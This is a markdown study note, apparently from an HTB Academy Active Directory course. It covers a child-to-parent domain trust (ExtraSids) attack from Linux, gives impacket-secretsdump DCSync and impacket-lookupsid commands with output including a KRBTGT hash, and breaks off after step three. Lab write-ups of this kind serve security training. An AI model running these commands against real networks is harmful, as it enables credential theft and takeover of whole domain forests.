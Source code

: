 # 🐧 **Child → Parent Trust Attacks - from Linux**

## 🎯 **HTB Academy: Active Directory Enumeration & Attacks**

### 📍 **Overview**

**Child → Parent Trust Attacks from Linux** leverage the Impacket toolkit to perform ExtraSids attacks against Active Directory forests. This approach provides cross-platform capability for SID History exploitation, enabling Linux-based attackers to escalate from child domain compromise to complete forest control using Python-based tools.

---

## 🛠️ **Linux Attack Methodology**

### **Required Data Points (Same as Windows)**
| Component | Linux Collection Method | Example Value |
|-----------|------------------------|---------------|
| **KRBTGT hash** | `impacket-secretsdump` DCSync | `9d765b482771505cbe97411065964d5f` |
| **Child domain SID** | `impacket-lookupsid` enumeration | `S-1-5-21-2806153819-209893948-922872689` |
| **Target username** | Arbitrary (can be fake) | `hacker` |
| **Child domain FQDN** | Target specification | `LOGISTICS.INLANEFREIGHT.LOCAL` |
| **Enterprise Admins SID** | `impacket-lookupsid` parent domain | `S-1-5-21-3842939050-3880317879-2865463114-519` |

### **Step 1: KRBTGT Hash Extraction**
```bash
# DCSync attack for KRBTGT account
impacket-secretsdump logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

# Output extract:
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
```

### **Step 2: Child Domain SID Discovery**
```bash
# SID brute forcing for child domain
impacket-lookupsid logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

# Output: [*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
```

### **Step 3: Enterprise Admins SID Enumeration**
```bash
# Target parent domain controller for Enterprise Admins SID
impacket-lookupsid logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

# Output extract:
# [*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
# 519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```
